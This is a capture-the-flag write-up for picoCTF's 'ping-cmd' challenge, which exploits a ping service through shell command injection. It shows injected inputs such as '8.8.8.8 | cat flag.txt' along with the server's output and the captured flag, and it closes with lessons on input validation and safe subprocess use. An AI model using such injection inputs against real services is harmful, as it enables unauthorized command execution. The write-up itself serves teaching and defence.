


# ping-cmd

**Points:** N/A

**Platform:** PicoCTF

**Difficulty:** Easy

**Date Completed:** 2026-09-21

---

## Description

Can you make the server reveal its secrets? It seems to be able to ping Google DNS, but what happens if you get a little creative with your input?

You can connect to the service here `nc mysterious-sea.picoctf.net 50583`



---

## Category

General Skills

---

## Solution

### Initial Analysis

Connecting to the service shows a prompt that takes an IP address and pings it:

```text
Enter an IP address to ping! (We have tight security because we only allow '8.8.8.8'):
```

The message claims the input is locked down to a single address, `8.8.8.8` (Google's public DNS, which the challenge title also hints at). Whenever a program claims to run `ping` on user-controlled input, that's worth testing directly rather than trusting the claim: if the server builds a shell command like `ping -c 2 <input>` and drops our text straight into it, the "security" is cosmetic and the input is a **command injection** point.

The plan: confirm the input actually reaches a real `ping` process, confirm the "only 8.8.8.8" restriction isn't actually enforced, then try to break out of the `ping` command with a shell operator.

### Step-by-Step Walkthrough

#### Step 1: Confirm ping is really running

I connected with netcat and gave it the guaranteed-to-work loopback address:

```bash
nc mysterious-sea.picoctf.net 50583
```

```text
Enter an IP address to ping! (We have tight security because we only allow '8.8.8.8'): 127.0.0.1
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.027 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.036 ms

--- 127.0.0.1 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1029ms
rtt min/avg/max/mdev = 0.027/0.031/0.036/0.004 ms
```

`127.0.0.1` isn't `8.8.8.8`, yet it pinged successfully with real statistics. So the input isn't actually restricted to `8.8.8.8`, whatever address we send gets handed straight to the real `ping` command.

#### Step 2: Confirm the restriction is fake

To be sure, I tried two more addresses that also aren't `8.8.8.8`:

```text
Enter an IP address to ping! (We have tight security because we only allow '8.8.8.8'): 8.8.4.4
PING 8.8.4.4 (8.8.4.4) 56(84) bytes of data.

--- 8.8.4.4 ping statistics ---
2 packets transmitted, 0 received, 100% packet loss, time 1008ms
```

```text
Enter an IP address to ping! (We have tight security because we only allow '8.8.8.8'): 1.1.1.1
PING 1.1.1.1 (1.1.1.1) 56(84) bytes of data.

--- 1.1.1.1 ping statistics ---
2 packets transmitted, 0 received, 100% packet loss, time 1024ms
```

Both are accepted and both actually run `ping`, they just get 100% packet loss, most likely because the challenge container has no real outbound network access, not because of any input check. Combined with Step 1, this confirms there is **no validation at all** on the address: our raw text is concatenated into a shell command.



#### Step 3: Break out with a shell pipe

If the server runs something like `ping -c 2 <our input>` through a shell, then any shell metacharacter in our input becomes part of that command. Appending a pipe should let us chain on our own command after the ping:

```text
Enter an IP address to ping! (We have tight security because we only allow '8.8.8.8'): 8.8.8.8 | ls
flag.txt
script.sh
```

It worked: `ls` ran on the server and listed its working directory. (`ping`'s own output doesn't appear here because its stdout was piped into `ls`, which ignores stdin and just lists the directory instead.) Two files are visible: `flag.txt` and `script.sh`. The latter is likely the wrapper script that builds and runs the `ping` command.

#### Step 4: Read the flag directly

With arbitrary command execution confirmed, I swapped `ls` for `cat flag.txt`:

```text
Enter an IP address to ping! (We have tight security because we only allow '8.8.8.8'): 8.8.8.8 | cat flag.txt
picoCTF{p1nG_c0mm@nd_3xpL0it_su33essFuL_8555bda7}
```

### Finding the Flag

The injected `cat flag.txt` printed the flag straight into the connection:

```text
picoCTF{p1nG_c0mm@nd_3xpL0it_su33essFuL_8555bda7}
```


---

## Flag

```
picoCTF{p1nG_c0mm@nd_3xpL0it_su33essFuL_8555bda7}
```

---

## Tools Used

- **netcat (`nc`)** - Connected to the challenge service and sent each ping request
- **Shell command injection (`|`)** - Chained arbitrary commands onto the server's `ping` call
- **picoCTF webshell** - Terminal used to run all the commands

---

## Lessons Learned

- **A claimed restriction isn't a real one:** The prompt said "we only allow '8.8.8.8'", but nothing on the server actually checked that. Any security claim in a banner or prompt should be tested, not trusted.
- **Never build shell commands from user input:** The service almost certainly does something like `os.system(f"ping -c 2 {user_input}")` or the shell equivalent. Because the input is concatenated into a command string, shell metacharacters (`|`, `;`, `&&`, backticks, `$()`) let an attacker run anything the process can run.
- **A pipe doesn't need the first command to succeed or make sense:** `ping ... | ls` is nonsensical as a pipeline (`ls` doesn't read stdin), but the shell still executes both halves, and it was enough to prove and then exploit the injection.
- **The correct fix:** Validate the input strictly (e.g., match it against an IP-address regex or use `ipaddress.ip_address()` in Python) and, more importantly, call `ping` with an argument list (`subprocess.run(["ping", "-c", "2", ip], shell=False)`) instead of building a shell string, so metacharacters are passed as literal data, not shell syntax.

---

## References

- [picoCTF](https://picoctf.org/)
- [OWASP - OS Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [ping manual page](https://man7.org/linux/man-pages/man8/ping.8.html)
- [Python `subprocess` security considerations](https://docs.python.org/3/library/subprocess.html#security-considerations)

---

## Screenshots

All screenshots for this write-up are stored in the shared `PicoCTF/images/` directory:

- `ping-cmd-challenge.png` - Challenge description
- `ping-cmd-full-session.png` - Complete terminal session, from the baseline ping tests to the command injection that reveals the flag

---

## Notes

- The challenge description and my session both show port `50583`, so no port mismatch this time (unlike some other picoCTF instances, which spin up a fresh random port per session).
- The very first two attempts I made with plain `1.1.1.1` and `8.8.8.8` produced no visible ping output before I moved on to the next connection, likely because I didn't wait long enough for the ~1 second `ping -c 2` round trip to finish before closing the connection. The later attempts with `127.0.0.1`, `8.8.4.4`, and `1.1.1.1` (given time to finish) all show full `ping` output, which is what proved the address wasn't actually being filtered.
- `| cat flag.txt` could just as easily have been `; cat flag.txt`, `&& cat flag.txt`, or backticks/`$()`, depending on how the underlying shell call is built. `|` was simply the first one tried and it worked.
